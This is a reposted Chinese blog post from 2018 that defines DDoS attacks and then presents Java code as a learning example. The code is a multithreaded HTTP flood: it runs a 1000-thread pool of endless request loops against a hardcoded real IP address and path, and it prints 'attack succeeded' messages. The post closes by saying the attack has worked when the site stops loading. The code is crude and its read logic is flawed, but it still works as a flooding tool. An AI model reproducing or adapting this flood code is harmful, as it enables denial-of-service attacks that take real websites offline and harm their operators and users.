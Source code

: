 ```yaml
---
title: Java实现DDoS攻击的概念与示例代码
tags:
  - Java
  - DDoS
  - 网络安全
  - 多线程
toc: false
abbrlink: 27312
date: 2018-08-16 14:54:00
updated:
categories:
  - Java
  - 网络安全
description: 本文解释了DDoS（分布式拒绝服务）攻击的基本概念，并提供了一个使用Java多线程（ExecutorService）实现的简单DDoS攻击示例代码，用于学习和理解其工作原理。
keywords: DDoS, Java, 网络安全, 拒绝服务攻击, ExecutorService, 多线程编程, URLConnection, 攻击代码示例
---
```

![](https://ws1.sinaimg.cn/large/e3bf8736ly1fypz0k52q6j22i01o01kz.jpg)

<!--more-->
### 转载

> 分布式拒绝服务(DDoS:Distributed Denial of Service)攻击指借助于客户/服务器技术，将多个计算机联合起来作为攻击平台，对一个或多个目标发动DDoS攻击，从而成倍地提高拒绝服务攻击的威力。通常，攻击者使用一个偷窃帐号将DDoS主控程序安装在一个计算机上，在一个设定的时间主控程序将与大量代理程序通讯，代理程序已经被安装在网络上的许多计算机上。代理程序收到指令时就发动攻击。利用客户/服务器技术，主控程序能在几秒钟内激活成百上千次代理程序的运行。
>

```java
public class DDos {

    public static void main(String[] args) {

        ExecutorService es = Executors.newFixedThreadPool(1000);

        Mythread mythread = new Mythread();

        Thread thread = new Thread(mythread);

        for (int i = 0; i < 10000; i++) {

            es.execute(thread);

        }

    }

}

class Mythread implements Runnable {

    public void run() {

        while (true) {

            try {

                URL url = new URL("http://221.232.148.51/guojibu/");

                URLConnection conn = url.openConnection();

                System.out.println("发包成功！");

                BufferedInputStream bis = new BufferedInputStream(

                        conn.getInputStream());

                byte[] bytes = new byte[1024];

                int len = -1;

                StringBuffer sb = new StringBuffer();


                if (bis != null) {

                    if ((len = bis.read()) != -1) {

                        sb.append(new String(bytes, 0, len));

                        System.out.println("攻击成功！");

                        bis.close();

                    }

                }

            } catch (MalformedURLException e) {

                // TODO Auto-generated catch block
                e.printStackTrace();

            } catch (IOException e) {

                // TODO Auto-generated catch block
                e.printStackTrace();

            }
        }
    }
}
```

网站打不开就是攻击成功了

 